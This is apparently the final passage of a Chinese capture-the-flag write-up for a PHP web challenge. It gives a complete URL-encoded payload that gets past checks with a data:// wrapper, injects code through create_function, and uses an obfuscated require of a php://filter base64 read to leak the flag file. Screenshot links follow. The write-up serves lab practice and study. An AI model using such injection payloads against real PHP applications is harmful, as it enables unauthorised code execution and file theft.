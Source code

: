 最终最终的payload

```
/1nD3x.php?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67%5b%63%6f%64%65%5d=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67%5b%61%72%67%5d=}require(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f))
;//
```

![image-20240620214951418](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202149455.png)

解码得到flag

![image-20240620215037544](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202150708.png)
